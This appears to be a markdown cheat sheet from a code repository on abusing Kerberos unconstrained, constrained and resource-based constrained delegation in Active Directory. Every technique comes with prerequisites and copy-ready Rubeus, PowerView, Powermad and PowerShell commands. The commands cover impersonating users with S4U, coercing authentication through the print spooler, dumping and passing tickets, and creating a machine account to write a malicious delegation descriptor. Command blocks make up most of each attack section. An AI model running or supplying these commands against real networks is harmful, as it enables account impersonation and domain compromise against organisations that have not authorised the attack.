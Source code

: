 # Unconstrained Delegation
An account with a set SPN (e.g. Service A) can impersonate an user using the service set via the SPN at any other service in Active Directory. For this purpose, the service can use the user's ticket granting ticket, which is send together with the TGS for Service A.

## Prerequisites
```
NOT_DELEGATED UAC flag of target user must be false
TRUSTED_FOR_DELEGATION UAC flag in the attributes of the attacker account associated SPN must be true (only domain admins have typically the SeEnableDelegationPrivilege right to change this flag)
```

## Result
Domain Controller responds with target user TGT

## Commands
- Using S4U2Self
```
Invoke-Rubeus -Command 's4u /user:<attackerComputerA> /rc4:<attackerNtlmHash> /impersonateuser:<targetUser> /msdsspn:"cifs/<fqdnTargetComputerB>" /ptt'
```

- Using spoolservice (rubeus monitor needs elevated context)
```
Invoke-Rubeus -Command 'monitor /interval:1'
SpoolSample.exe <targetComputer> <attackerComputer>
```

- Using cached ticket
```
Invoke-Rubeus -Command 'dump'
Invoke-Rubeus -Computer 'ptt /ticket:<base64Ticket>'
```


# Constrained Delegation
An account with a set SPN (e.g. Computer A with Service A) can impersonate an user using Service A towards other services in Active Directory. Impersonation can be applied to services (e.g. Service B) defined in the msDS-AllowedToDelegateTo attribute of Computer A. The impersonation is performed by using the S4U2Proxy Extension, after the user authenticates to Service A. It is also possible to impersonate the user for an alternative service, as long as these service are provided by Computer B. This is because the service part of the SPN (<spn>/<fqdn>) in a service ticket is not signed by Kerberos and thus can later be manipulated.

## Prerequisites
```
NOT_DELEGATED UAC flag of target user must be false
msDS-AllowedToDelegateTo attribute of Computer A must hold Service B 
```

## Result
Domain Controller responds with TGS of target user for Service B - this TGS can be used for alternative services provided on Computer B

## Commands
- Check allowed SPNs
```
Get-DomainUser <attackerComputerA> -Properties samaccountname,msds-allowedtodelegateto | Select -Expand msds-allowedtodelegateto
```

- If SPN already contains cifs or desired service as SPN
```
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('<targetUser>')
$idToImpersonate.Impersonate()
[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
```

- Otherwise ask for TGS and insert alternative service
```
Invoke-Rubeus -Command 's4u /user:<attackerComputerA> /rc4:<ntlmHashComputerA> /impersonateuser:<targetUser> /msdsspn:"<service>/<fqdnTargetComputerB>" /altservice:cifs /ptt'
```


# Resource Based Constrained Delegation
An account (e.g. Computer A) with set SPN (e.g. Service A) can impersonate an user using Service A towards other services (e.g. Service B of Computer B) in Active Directory. Impersonation can only take place if the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of Service B lists Computer A.

## Prerequisites
```
NOT_DELEGATED UAC flag of target user must be false
msDS-AllowedToActOnBehalfOfOtherIdentity attribute of Computer B must hold Service A 
One Domaincontroller with OS at least Windows Server 2012
```

## Result
Domain Controller responds with TGS of target user for Service A - this TGS can be used for alternative services

## Commands
- Check machine account quota (powerview)
```
Get-DomainObject -Domain <domain> -Properties ms-ds-machineaccountquota | Select -First 1
```

- Check DC OS
```
Get-NetDomainController | Select name,osversion | Format-List
```

- Check present SPN in msDS-AllowedToActOnBehalfOfOtherIdentity attribute
```
Get-NetComputer <targetComputer> | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

- Add new computer to domain if necessary (powermad)
```
New-MachineAccount -MachineAccount <newComputer> -Password $(ConvertTo-SecureString '<newComputerPassword>' -AsPlainText -Force)
```

- Get SID of new computer
```
Get-NetComputer <newComputer> -Properties objectsid | Select -Expand objectsid
```

- Create a raw security descriptor for the new computer
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<newComputerSid>)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

- Add new value to msDS-AllowedToActOnBehalfOfOtherIdentity attribute
```
Get-NetComputer <targetComputer> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

- Check added msDS-AllowedToActOnBehalfOfOtherIdentity attribute
```
Get-NetComputer <targetComputer> -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

- Ask for TGS
```
Invoke-Rubeus -Command 's4u /user:<newComputer> /rc4:<newComputerNtlmHash> /impersonateuser:<targetUser> /msdsspn:cifs/<fqdnTargetComputerB> /ptt'
```

# S4U2Proxy
The service for User to Proxy Extension allows a service that has a service ticket from a user for its own service to request a service ticket from the domain controller on behalf of     the user for other services. The S4U2Proxy extension works for resource-based constrained delegation even if the provided TGS of the user is not forwardable (design error of microsoft).

# S4U2Self
The service-for-User-to-Self extension allows a service to obtain a service ticket to itself on behalf of a arbitrary user. In order to work, the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION UAC flag of Service A need to be set to true. If the flag is not true the resulting TGS of user X will not be forwardable.

